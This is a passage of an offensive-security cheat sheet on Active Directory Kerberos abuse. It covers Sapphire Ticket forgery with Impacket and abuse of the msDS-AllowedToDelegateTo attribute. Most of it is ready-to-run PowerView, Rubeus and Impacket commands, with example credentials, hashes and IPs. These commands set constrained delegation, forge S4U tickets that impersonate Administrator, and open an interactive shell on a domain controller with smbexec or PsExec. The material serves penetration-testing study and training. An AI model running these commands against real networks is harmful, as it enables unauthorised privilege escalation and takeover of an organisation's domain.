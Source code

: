 >[!References]
>- https://pentestlab.blog/2021/11/15/golden-certificate/
>- https://github.com/Ridter/pyForgeCert
>- https://github.com/ly4k/Certipy

### Sapphire Ticket
As mentioned in [hacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire)
> This is pretty much similar to the [Diamond Ticket](#diamond-ticket) but Sapphire tickets are an alternative to obtaining similar tickets in a stealthier way, by including a legitimate powerful user's PAC in the ticket. The powerful user's PAC can be obtained through an [S4U2self+u2u](/ad/movement/kerberos) trick.
```bash
# Impacket
ticketer.py -request -user peter -password 'Password123' -domain range.net -aesKey 6a4b564a854e5ac474aca142874e1ca53167a71735dd6b08cc33247ae9941a86 -domain-sid S-1-5-21-2004564407-2130411480-2428574852 -impersonate Administrator 'Administrator'
```

### msDS-AllowedToDelegateTo
Note that the `msDS-AllowedToDelegateTo` is the user account flag which controls the services to which a user accounts has access to. This means, with enough privileges, it is possible to access any service from a target user.

1. Set the `msDS-AllowedToDelegateTo` attribute of a user _lowpriv_ to give privilege for it to request ticket for _cifs_ service to dc01.
```bash
# AD Module / RSAT
Set-ADUser -Identity lowpriv -Add @{'msDS-AllowedToDelegateTo'=@('cifs/dc01.legitcorp.local')} -Verbose

# PowerView
Set-DomainObject -Identity lowpriv -Set @{"msds-allowedtodelegateto"="cifs/dc01.legitcorp.local"}
Set-DomainObject -SamAccountName lowpriv -Xor @{"useraccountcontrol"="16777216"}

# Linux
setCD.py legitcorp.local/Administrator:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -target 'lowpriv' -spn 'cifs/dc01.legitcorp.local'
```
2. Request the service ticket for _cifs_ service with impacket [getST.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/getST.py) and impersonate to administrator.
```powershell
# Rubeus
Rubeus.exe hash /user:lowpriv /password:'P@$$w0rd!xyz' /domain:legitcorp.local
Rubeus.exe s4u /user:lowpriv /rc4:098D747A5D113F6AE9D6A599EB8E539B /domain:legitcorp.local /impersonateuser:administrator /msdsspn:cifs/dc01.legitcorp.local /ptt

# Impacket
getST.py -spn cifs/dc01.legitcorp.local legitcorp.local/lowpriv:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -impersonate 'administrator'
export KRB5CCNAME='administrator.ccache'
```
3. Getting an interactive shell with smbexec.py. Note that there are other several ways to achieve this and executing smbexec.py or psexec.py might cause a noisy traffic on the environment.
```bash
# Sysinternal
PsExec64.exe -accepteula \\dc01.legitcorp.local cmd

# Impacket
smbexec.py legitcorp.local/Administrator@dc01.legitcorp.local -dc-ip 192.168.86.170 -no-pass -k
```
